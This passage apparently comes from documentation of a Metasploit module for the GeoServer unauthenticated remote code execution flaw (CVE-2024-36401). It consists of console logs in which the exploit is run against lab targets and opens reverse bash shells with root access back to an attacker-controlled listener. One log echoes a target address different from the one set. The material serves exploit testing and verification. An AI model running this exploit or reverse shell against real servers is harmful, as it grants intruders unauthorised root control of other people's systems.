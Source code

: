 ```msf
Linux cuckoo 5.15.0-102-generic #112-Ubuntu SMP Tue Mar 5 16:50:32 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
pwd
/usr/share/geoserver
exit
```
###  GeoServer 2.23.5 on ARM64 Raspberry PI-4 Kali Linux 2024.4 - cmd/unix/reverse_bash
```msf
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 0
target => 0
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set rhosts 192.168.201.10
rhosts => 192.168.201.10
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target is vulnerable. Version 2.23.5
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 8 opened (192.168.201.8:4444 -> 192.168.201.10:50292) at 2024-07-11 16:15:31 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux cerberus 5.15.44-Re4son-v8l+ #1 SMP PREEMPT Debian kali-pi (2022-07-11) aarch64 GNU/Linux
pwd
/usr/share/geoserver
exit
```
###  GeoServer 2.23.2 on vulhub docker image - cmd/unix/reverse_bash
```msf
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 0
target => 0
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set rhosts 192.168.201.42
rhosts => 192.168.201.10
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target is vulnerable. Version 2.23.2
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 9 opened (192.168.201.8:4444 -> 192.168.201.42:60290) at 2024-07-11 18:42:08 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux e3f986905bde 6.6.32-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Jun 13 14:14:43 UTC 2024 x86_64 GNU/Linux
pwd
/mnt/geoserver
```
###  GeoServer 2.23.2 on vulhub docker image - linux/x64/meterpreter_reverse_tcp